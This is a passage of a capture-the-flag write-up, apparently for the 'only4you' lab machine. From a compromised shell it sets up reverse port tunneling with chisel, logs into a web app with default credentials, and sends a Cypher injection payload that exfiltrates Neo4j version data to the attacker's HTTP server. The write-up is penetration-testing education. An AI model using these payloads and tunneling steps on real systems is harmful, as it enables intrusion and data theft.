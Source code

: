 To do so I uploaded `chisel` to the shell chisel is a tool for tunneling which is exactly what we need.

First create the server on your host machine:
```

$ ./chisel server -p 7777 --reverse
2023/05/02 13:03:42 server: Reverse tunnelling enabled
2023/05/02 13:03:42 server: Fingerprint TyYDrdALE7b96tot0xX/Wzeb6Dyn/dzVETaX9YVJs8U=
2023/05/02 13:03:42 server: Listening on http://0.0.0.0:7777

```

Second use chisel on the target ports:
```

www-data@only4you:/tmp$ ./chisel client 10.10.14.120:7777 R:7474:localhost:7474 R:3000:localhost:3000 R:8001:localhost:8001

(Host)$ ./chisel server -p 7777 --reverse
2023/05/02 13:03:42 server: Reverse tunnelling enabled
2023/05/02 13:03:42 server: Fingerprint TyYDrdALE7b96tot0xX/Wzeb6Dyn/dzVETaX9YVJs8U=
2023/05/02 13:03:42 server: Listening on http://0.0.0.0:7777
2023/05/02 13:03:48 server: session#1: tun: proxy#R:8090=>localhost:7474: Listening
2023/05/02 13:15:30 server: session#2: tun: proxy#R:7474=>localhost:7474: Listening
2023/05/02 13:15:30 server: session#2: tun: proxy#R:3000=>localhost:3000: Listening
2023/05/02 13:15:30 server: session#2: tun: proxy#R:8001=>localhost:8001: Listening

```

Great we reverse port forwarded these ports now access them.

Starting with 3000

#### 3000

Looking at the site we can see a login form, if we try some default credentials like `admin:admin` and it worked we're logged in as admin over there we got a `/employees` directory, lets navigate to there. In the `/employees` we got a search user functionality. If you think of how this works is fairly simple, just takes the search parameter's input and looks for it at the database, we know for a fact that the database is neo4j so maybe there is a SQL injection vulnerability. We got to remember, that neo4j is not the standard SQL language, but the queries are from a language called Cypher. So we probably got to search for Cypher injection. So I read a little bit and found some payload, so I tried.


```

(Host)$ sudo python3 -m http.server 80 # we're creating a http server because the data from the neo4j DB is gonna be send to us as a http GET request

```
After running the http server I started with the first payload. Note: I pasted it stright to the input box if I didn't it wouldn't work.

First payload for getting Neo4j version:
In all payloads don't forget to replace the host ip.
```
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.0.1/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```
Output:
```

$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [02/May/2023 14:40:59] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
```